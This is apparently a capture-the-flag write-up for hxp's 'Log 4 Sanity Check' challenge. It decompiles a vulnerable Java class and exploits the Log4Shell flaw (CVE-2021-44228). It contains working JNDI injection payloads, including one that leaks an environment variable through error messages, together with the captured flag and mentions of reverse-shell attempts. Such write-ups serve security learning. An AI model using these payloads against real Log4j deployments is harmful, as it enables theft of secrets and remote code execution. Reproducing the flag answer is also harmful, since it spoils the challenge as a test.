 ## Log 4 Sanity Check

**Category:** Misc


### Description
ALARM ALARM

Download:
Log 4 sanity check-9afb8a24feb86db1.tar.xz (1.7 MiB)

Connection (mirrors):

```
nc 65.108.176.77 1337
```

### Solution

First of all let's connect to server and see what we will get in response:

```bash
$ nc 65.108.176.77 1337
What is your favourite CTF?
test
:(
```

We can see that, it get an input from us and will print some characters in screen. Looking in provided files, `Vuln.class` look interesting.
Opening this file with `bytecode viewer` will give us following source code:

```java
import org.apache.logging.log4j.Logger;
import java.util.Scanner;
import org.apache.logging.log4j.LogManager;

public class Vuln
{
    public static void main(final String[] array) {
        try {
            final Logger logger = LogManager.getLogger(Vuln.class);
            System.out.println("What is your favourite CTF?");
            final String next = new Scanner(System.in).next();
            if (next.toLowerCase().contains("dragon")) {
                System.out.println("<3");
                System.exit(0);
            }
            if (next.toLowerCase().contains("hxp")) {
                System.out.println(":)");
            }
            else {
                System.out.println(":(");
                logger.error("Wrong answer: {}", (Object)next);
            }
        }
        catch (Exception x) {
            System.err.println(x);
        }
    }
}
```

Also there is a hint provided in the challenge that points to link: `https://www.bsi.bund.de/SharedDocs/Cybersicherheitswarnungen/DE/2021/2021-549032-10F2.pdf?__blob=publicationFile&v=6`.
Opening this link we will see that it is mentioning to vulnerability `CVE-2021-44228` which is vulnerability in Log4j library.

Knowing this, it is kind of obvious what should we do now. We need to use this vuln, and try to gain RCE or Read flag with this vulnerability.

#### POC
Here is the POC for existance of this vulnerability:

```bash
$ nc 65.108.176.77 1337
What is your favourite CTF?
${jndi:ldap://127.0.0.1/test}
:(

2021-12-17 22:18:13,669 main WARN Error looking up JNDI resource [ldap://127.0.0.1/test]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:252)
	at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at java.naming/com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1616)
	at java.naming/com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2847)
....
```

Which is giving us exception that proves this vuln exists. Also as u can see it is giving connection refused.
So if we have a ldap server, and send request to it we can create a reverse shell using following guideline:

```https://sysdig.com/blog/exploit-detect-mitigate-log4j-cve/```

I did tried many RCE Methods, tried to make a reverse shell with nc, did tried `curl`, `wget` and many other commands to get response in ldap server. but none of them works.

So tried to check `Dockerfile` see if there is anything useful. Checking Dockerfile, the last line seem to be interesting:

```bash
CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"
```

As u can see, `flag.txt` is copied in `FLAG` Environment variable. So maybe it's simpler than we thought. I tried to read flag in ldap request and finaly with following payload i could read the flag in error messages:

```bash
$ nc 65.108.176.77 1337
What is your favourite CTF?
${jndi:ldap://127.0.0.1/${env:FLAG}}
:(
2021-12-17 22:22:35,970 main WARN Error looking up JNDI resource [ldap://127.0.0.1/hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]

```

And as u can see, Flag is writen in exception errors.

